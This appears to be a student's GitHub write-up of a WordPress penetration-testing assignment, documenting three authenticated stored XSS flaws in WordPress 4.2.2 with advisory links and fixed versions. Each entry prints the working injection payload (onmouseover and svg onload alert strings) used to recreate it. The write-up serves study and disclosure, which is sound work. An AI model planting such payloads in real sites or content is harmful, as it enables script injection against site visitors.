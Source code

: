 # Project 7 - WordPress Pentesting

Time spent: 10 hours spent in total

> Objective: Find, analyze, recreate, and document up to **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: Authenticated Cross-Site Scripting (XSS) in post/page (text editor mode). Editor user and up.
    - Vulnerability types: XSS
    - Tested in version: 4.2.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: <img src='http://imgur.com/a/5Oy7m.png' title='Video Walkthrough 1' width='' alt='Video Walkthrough 1' />
  - [ ] Steps to recreate: Code was entered into a new post using the HTML edit mode.
        ```
        <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
        ```
  - [ ] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress3.html)
1. Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: A payload was placed in a page or post to create an XSS pop up
    - Vulnerability types: XSS
    - Tested in version: 4.2.2
    - Fixed in version: 4.2.5
  - [ ] GIF Walkthrough: <img src='http://imgur.com/a/5Vjy3.gif' title='Video Walkthrough 2' width='' alt='Video Walkthrough 2' />
  - [ ] Steps to recreate: The following was added to a post's content and created an XSS pop up when on mouse over:
        ```
        TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>"
        ```
  - [ ] Affected source code:
    - [Link 1](http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
1. Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: A simple XSS script is added into a URL in order to bypass the shortcode parser.
    - Vulnerability types: XSS
    - Tested in version: 4.2.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: <img src='http://imgur.com/a/b6LsO.gif' title='Video Walkthrough 3' width='' alt='Video Walkthrough 3' />
  - [ ] Steps to recreate: Creating a new post with the following youtube link creates an XSS message:
        ```
        https://youtube[.]com/watch?v=abc<svg onload=alert(1)>"
        ```
  - [ ] Affected source code:
    - [Link 1](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work
    One challenge required the use of an MacOS or Linux operating system. Also, the majority of the vulnerabilities provided very little information on how they could be recreated.

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
